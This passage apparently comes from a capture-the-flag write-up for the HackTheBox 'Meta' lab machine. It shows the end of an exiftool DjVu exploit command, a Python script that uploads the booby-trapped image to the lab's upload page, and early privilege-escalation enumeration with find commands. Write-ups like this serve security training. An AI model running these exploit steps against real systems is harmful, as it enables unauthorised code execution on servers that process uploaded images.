 ```bash
);
1; #end
EOL

exiftool -config configfile '-HasselbladExif<=exploit.djvu' sator.jpeg -overwrite_original
rm configfile exploit.djvu
```

For file upload.
```py
import requests as r
import sys

host = 'http://dev01.artcorp.htb'

try:
	file = sys.argv[1]
	with open(file, 'rb') as f:
		r.post(f"{host}/metaview/index.php", files={'imageUpload': ('sator.jpeg', f), 'submit': (None, None)}, timeout=10)
except Exception as e:
    print(e)
```


# Privesc

We are currently as `www-data`
```bash
(remote) www-data@meta:/$ whoami
www-data
```

1 user on the box
```bash
╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
```

## ImageMagick PDF-parsing flaw

scrapping filesystem using find command
```bash
find / -type f -user thomas 2>/dev/null

# Found neofetch config file

/home/thomas/.config/neofetch/config.conf


find / -type f -printf "%T+ %p\n" 2>/dev/null | grep -v "0000\|sys\|doc\|proc\|python\|boot\|share\|dpkg\|run\|var\|ImageMagick\|lib"

# Found a bash script.
2022-01-03+10:13:19.8059060230 ./usr/local/bin/convert_images.sh
```
